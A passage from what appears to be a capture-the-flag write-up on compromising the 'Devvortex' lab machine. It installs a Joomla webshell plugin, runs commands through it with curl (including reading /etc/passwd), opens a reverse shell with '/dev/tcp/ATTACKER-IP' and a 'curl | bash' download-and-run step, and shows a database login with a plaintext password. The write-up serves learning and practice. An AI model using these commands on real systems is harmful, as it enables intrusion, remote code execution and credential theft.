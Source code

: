 Download this joomla PoC extension: https://github.com/p0dalirius/Joomla-webshell-plugin
Install the malicious extension, visit: 
```
http://dev.devvortex.htb/administrator/index.php?option=com_installer&view=install
```


Than on your machine run
```bash
curl -X POST 'http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=id" 
```
```bash
curl -X POST 'http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php' --data "action=download&path=/etc/passwd" -o-
```
From the second command we know there is an user called logan as well as a mysql database.

Navigate inside the repository and execute the python script to gain a shell:
```bash
python3 console.py -t http://dev.devvortex.htb
```

Knowing the name of 1 user i tried to open the flag file:
```bash
cat /home/logan/user.txt
```
But unfortunately we do not have the permission.

This means that we have to escalate our privileges and access as logan.

The other info we know is the presence of an sql database, maybe there we can find some useful info.
Let's start by creating a more stable and interactive shell:

On your machine create a shell.sh file with this script
```bash
sh -i >& /dev/tcp/ATTACKER-IP/1234 0>&1
```
In the same directory start a webserver with python
```bash
python3 -m http.server -b ATTACKER-IP 8001
```

And in another terminal set also up a netcat listener
```bash
nc -lvnp 1234
```

Now in the shell we got from the challenge website run this to download the file, execute it and start a reverse shell connection:
```bash
curl http://ATTACKER-IP:8001/shell.sh | bash
```

Now we can apply the [usual methodology](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/e64dd159f4f2b0c2eb0301ea09eafea685882185/Tips-%26-Resources/Reverse_Shell-Upgrade.md) to make an fully interactive reverse shells.

On the target machine access now the mysql database:
```bash
mysql -u lewis -p P4ntherg0t1n5r3c0n## -h localhost -D joomla
```
